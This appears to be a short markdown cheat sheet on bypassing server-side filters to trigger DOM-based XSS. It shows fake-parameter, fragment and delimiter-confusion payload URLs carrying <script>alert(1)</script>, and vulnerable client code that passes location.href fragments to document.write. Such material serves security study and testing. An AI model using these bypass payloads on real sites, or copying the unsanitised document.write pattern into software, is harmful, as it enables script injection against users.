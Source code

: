 ## 🔐 Bypassing Filters & Common Mistakes in Client-Side Parsing

### 1. **Fake Parameters to Bypass Filters**

Server filters `message` param. But client-side code just scans `location.href` for `message=`, so you inject after the real param:

```plaintext
https://target.com/page?message=Error&foo=<script>alert(1)</script>
```

Client-side JavaScript:

```js
let param = location.href.split("message=")[1];
document.write(param);
```

💥 XSS fires because `foo=` contains the payload and the server ignores it.

---

### 2. **Fragment Injection** — `#` is Your Best Friend

* Fragment identifiers (after `#`) **never reach the server**
* But they are still accessible in JavaScript (`location.hash`, `location.href`)

Payload:

```
https://target.com/page?message=Error#<script>alert(1)</script>
```

Server can’t block what it never sees → JS processes it → XSS fires.

---

### 3. **Delimiter Confusion Attacks**

Some apps parse query strings naively:

```js
const message = location.href.split("message=")[1];
```

So you trick it by injecting your payload *before* the actual message param:

```plaintext
https://target.com/page?foomessage=<script>alert(1)</script>&message=Error
```

Or inside the fragment:

```plaintext
https://target.com/page#message=<script>alert(1)</script>
```

💥 Both can trigger DOM XSS if JS just uses `.split("message=")`.

---